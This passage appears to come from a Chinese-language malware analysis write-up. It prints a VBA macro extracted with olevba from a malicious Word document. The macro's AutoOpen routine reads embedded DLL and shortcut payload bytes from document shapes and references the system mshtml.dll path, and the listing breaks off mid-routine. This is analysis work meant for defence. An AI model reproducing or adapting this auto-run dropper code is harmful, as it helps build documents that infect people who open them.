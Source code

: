 

# 样本分析

## 样本宏分析

使用olevba工具获取样本的宏如下：

```
Private Declare PtrSafe Function MultiByteToWideChar Lib "kernel32" ( _
    ByVal CodePage As Long, _
    ByVal dwFlags As Long, _
    ByVal lpMultiByteStr As LongPtr, _
    ByVal cchMultiByte As Long, _
    ByVal lpWideCharStr As LongPtr, _
    ByVal cchWideChar As Long) As Long

Private Function BytesLength(abBytes() As Byte) As Long
    On Error Resume Next
    BytesLength = UBound(abBytes) - LBound(abBytes) + 1
End Function

Public Function Utf8BytesToString(abUtf8Array() As Byte) As String
    Dim nBytes As Long
    Dim nChars As Long
    Dim strOut As String
    Utf8BytesToString = ""
    nBytes = BytesLength(abUtf8Array)
    If nBytes <= 0 Then Exit Function
    nChars = MultiByteToWideChar(CP_UTF8, 0&, VarPtr(abUtf8Array(0)), nBytes, 0&, 0&)
    strOut = String(nChars, 0)
    nChars = MultiByteToWideChar(CP_UTF8, 0&, VarPtr(abUtf8Array(0)), nBytes, StrPtr(strOut), nChars)
    Utf8BytesToString = Left$(strOut, nChars)
End Function

Function bin2var(filename As String) As String
    Dim f As Integer
    f = FreeFile()
    Open filename For Binary Access Read Lock Write As #f
        bin2var = Space(FileLen(filename))
        Get #f, , bin2var
    Close #f
End Function

Sub AutoOpen()
    Dim dllData, lnkData, nDllSize, nlnkSize, ntmpSize, oShape, oObject, dllpath, lnkPath, ntospath As String

    ntospath = Environ("SystemRoot") & "\system32\mshtml.dll"
On Error GoTo error

    With ActiveDocument

    dllData = .Shapes(1).TextFrame.TextRange
    lnkData = .Shapes(2).TextFrame.TextRange
    Dim dllBin(211455) As Byte
    nDllSize = 211455
    
    Dim lnkBin(1441) As Byte
    nlnkSize = 1441

    Dim tmpBin
```